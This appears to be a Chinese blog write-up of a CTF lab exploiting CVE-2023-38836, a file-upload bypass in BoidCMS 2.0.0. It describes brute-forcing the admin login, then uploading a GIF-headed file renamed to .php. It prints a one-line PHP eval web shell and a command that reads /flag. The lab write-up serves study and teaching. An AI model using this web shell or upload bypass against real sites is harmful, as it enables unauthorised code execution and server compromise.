 ```yaml
---
title: 【春秋云境】CVE-2023-38836复现
date: 2025-09-17
categories:
  - 靶场
image: images/76.webp
---
```

# 0x01 靶标介绍
BoidCMS v.2.0.0 存在文件上传漏洞，远程攻击者可通过添加 GIF 头部绕过 MIME 类型检查，执行任意代码。
# 0x02 影响范围
**BoidCMS <=2.0.0**
# 0x03 漏洞复现
首先来到admin页面，使用bs爆破，得到账号密码
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250917131217.png)
Media页面可以上传文件，尝试上传文件
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250917132015.png)
文件类型不被支持，我们先上传一个正常文件
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250917132031.png)
进行抓包，然后编辑重放
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250917132047.png)
将文件名更改为php后缀，在文件头下面添加payload
```
<?php @eval($_POST['cmd']);?>  
<?php system("cat /flag");?>
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250917132113.png)
刷新可以看到上传成功
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250917132132.png)
回显得到flag
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250917132148.png)
